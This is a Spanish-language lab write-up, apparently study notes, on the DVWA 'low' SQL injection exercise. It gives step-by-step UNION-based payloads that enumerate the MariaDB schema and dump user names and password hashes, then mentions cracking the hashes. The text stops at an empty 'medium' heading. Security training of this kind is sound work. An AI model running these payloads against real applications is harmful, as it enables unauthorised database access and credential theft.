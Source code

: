 ## Objective

There are 5 users in the database, with id's from 1 to 5. Your mission... to steal their passwords via SQLi.

> He sacado todos los comandos interesantes de aquí https://www.advania.co.uk/insights/blog/mysql-sql-injection-practical-cheat-sheet/ç


### low

en el nivel bajo no aplica ningún tipo de escape ni protección por lo tanto podemos hacer un sql injection normal
```sql
SELECT first_name, last_name FROM users WHERE user_id = '$id';
```

1. Este payload obtiene la versión del mysql
```payload
89' UNION ALL SELECT NULL,version()-- -
```
**resultado**: *10.1.26-MariaDB-0+deb9u1*

2. Este payload devuelve los nombres de las bases de datos
```payload
89' UNION ALL SELECT NULL,concat(schema_name) FROM information_schema.schemata-- -
```
**resultado**:
![[Pasted image 20240426122944.png]]

3. Este payload devuelve el nombre de las tablas que tiene una base de datos
```payload
89' UNION ALL SELECT NULL,concat(TABLE_NAME) FROM information_schema.TABLES WHERE table_schema='dvwa' -- -
```

![[Pasted image 20240426123208.png]]

4. Este payload devuelve todas las columnas de una tabla
```payload
89' UNION ALL SELECT NULL,concat(column_name) FROM information_schema.COLUMNS WHERE TABLE_NAME='users'-- -
```

![[Pasted image 20240426123437.png]]

5. Por último devuelve los datos con el nombre de las tablas...
```payload
89' UNION ALL SELECT NULL,concat(user_id, ', ', first_name, ', ', last_name, ', ', user, ', ', password, ', ', avatar, ', ', last_login, ', ', failed_login) FROM users-- -
```

![[Pasted image 20240426123833.png]]

6. Crackeamos el hash en crackstation
![[Pasted image 20240426124109.png]]

### medium